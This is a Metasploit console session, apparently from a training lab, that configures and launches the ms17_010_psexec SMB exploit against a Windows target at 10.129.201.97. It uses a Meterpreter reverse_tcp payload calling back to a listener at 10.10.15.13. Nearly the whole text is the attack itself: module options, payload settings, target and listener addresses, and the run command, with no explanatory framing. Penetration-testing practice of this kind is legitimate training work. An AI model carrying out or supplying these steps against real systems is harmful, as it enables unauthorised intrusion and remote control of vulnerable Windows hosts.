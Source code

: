 ```js
msf6 exploit(windows/smb/ms17_010_psexec) > show options
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.4      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.10.15.13
LHOST => 10.10.15.13
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.129.201.97
RHOSTS => 10.129.201.97
msf6 exploit(windows/smb/ms17_010_psexec) > run
```
